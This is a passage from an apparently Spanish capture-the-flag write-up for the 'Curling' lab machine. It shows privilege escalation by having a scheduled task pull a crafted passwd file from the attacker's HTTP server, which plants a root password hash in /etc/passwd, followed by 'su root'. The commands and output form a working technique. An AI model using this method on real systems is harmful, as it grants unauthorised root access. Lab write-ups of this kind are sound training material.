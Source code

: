 Esperamos a que se ejecute la tarea:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.150 - - [18/Mar/2022 16:07:03] "GET /passwd HTTP/1.1" 200 -
```

Vemos que ya se realizó la solicitud, vamos a comprobar observando el `/etc/passwd` de la máquina víctima.

```bash
floris@curling:~/admin-area$ cat /etc/passwd
root:IB.plMO8N/x/E:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
floris:x:1000:1004:floris:/home/floris:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
floris@curling:~/admin-area$ 
```

Ahora ya podemos migrar al usuario **root** con la contraseña que definimos, en este caso **hola**:

```bash
floris@curling:~/admin-area$ su root
Password: 
root@curling:/home/floris/admin-area# whoami
root
root@curling:/home/floris/admin-area#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
